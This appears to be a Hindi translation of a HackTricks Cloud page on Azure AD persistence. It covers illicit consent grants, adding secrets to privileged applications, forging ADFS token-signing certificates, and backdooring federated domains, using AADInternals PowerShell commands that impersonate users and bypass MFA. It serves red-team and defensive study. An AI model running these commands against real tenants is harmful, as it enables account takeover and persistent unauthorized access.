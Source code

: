# Az - Persistence

{% hint style="success" %}
सीखें और प्रैक्टिस करें AWS हैकिंग: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
सीखें और प्रैक्टिस करें GCP हैकिंग: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs सबमिट करके।

</details>
{% endhint %}

### अवैध सहमति अनुदान

डिफ़ॉल्ट रूप से, कोई भी उपयोगकर्ता Azure AD में एक एप्लिकेशन पंजीकृत कर सकता है। इसलिए आप एक एप्लिकेशन को पंजीकृत कर सकते हैं (केवल लक्षित टेनेंट के लिए) जिसे व्यवस्थापक सहमति के साथ उच्च प्रभाव अनुमतियाँ चाहिए (यदि आप व्यवस्थापक हैं तो इसे मंजूर करें) - जैसे किसी उपयोगकर्ता की ओर से मेल भेजना, भूमिका प्रबंधन आदि। यह हमें **फिशिंग हमले** को **सफलतापूर्वक** करने की अनुमति देगा।

इसके अतिरिक्त, आप उस एप्लिकेशन को भी अपने उपयोगकर्ता के रूप में स्वीकार कर सकते हैं ताकि आप उस पर पहुंच बनाए रख सकें।

### एप्लिकेशन और सेवा प्रिंसिपल्स

एप्लिकेशन प्रशासक, GA या microsoft.directory/applications/credentials/update अनुमतियों के साथ एक कस्टम भूमिका के साथ, हम किसी मौजूदा एप्लिकेशन में क्रेडेंशियल (सीक्रेट या सर्टिफिकेट) जोड़ सकते हैं।

यह संभव है **उच्च अनुमतियों वाले एप्लिकेशन को लक्षित करना** या **उच्च अनुमतियों वाला नया एप्लिकेशन जोड़ना**।

एप्लिकेशन में जोड़ने के लिए एक दिलचस्प भूमिका होगी **विशेषाधिकारित प्रमाणीकरण प्रबंधक भूमिका** क्योंकि यह ग्लोबल प्रशासकों का **पासवर्ड रीसेट** करने की अनुमति देता है।

यह तकनीक भी **MFA को छलना** देती है।

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* प्रमाणपत्र आधारित प्रमाणीकरण के लिए
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### संघ - टोकन हस्ताक्षर प्रमाणपत्र

**DA विशेषाधिकार** के साथ on-prem AD पर, नए टोकन हस्ताक्षर और टोकन डिक्रिप्ट प्रमाणपत्र बनाना और आयात करना संभव है जिनकी बहुत लंबी वैधता हो। यह हमें उन उपयोगकर्ता के रूप में **लॉग-इन करने की अनुमति देगा** जिनका ImuutableID हमें पता है।

नीचे दिए गए कमांड को **ADFS सर्वर पर DA के रूप में चलाएं** नए प्रमाणपत्र बनाने के लिए (डिफ़ॉल्ट पासवर्ड 'AADInternals'), उन्हें ADFS में जोड़ें, स्वचालित रोलवर को अक्षम करें और सेवा को पुनः आरंभ करें:
```powershell
New-AADIntADFSSelfSignedCertificates
```
फिर, Azure AD के साथ प्रमाणपत्र सूचना को अपडेट करें:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### संघ - विश्वसनीय डोमेन

एक किरायेदार पर जीए प्रिविलेज के साथ, एक नए डोमेन जोड़ना संभव है (सत्यापित होना चाहिए), इसकी प्रमाणीकरण प्रकार को संघीय बनाना और डोमेन को एक विशिष्ट प्रमाणपत्र (नीचे दिए गए कमांड में कोई भी .sts) और जारीकर्ता पर विश्वास करने के लिए कॉन्फ़िगर करना:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## संदर्भ

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर हमें **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, हैकट्रिक्स**](https://github.com/carlospolop/hacktricks) और [**हैकट्रिक्स क्लाउड**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
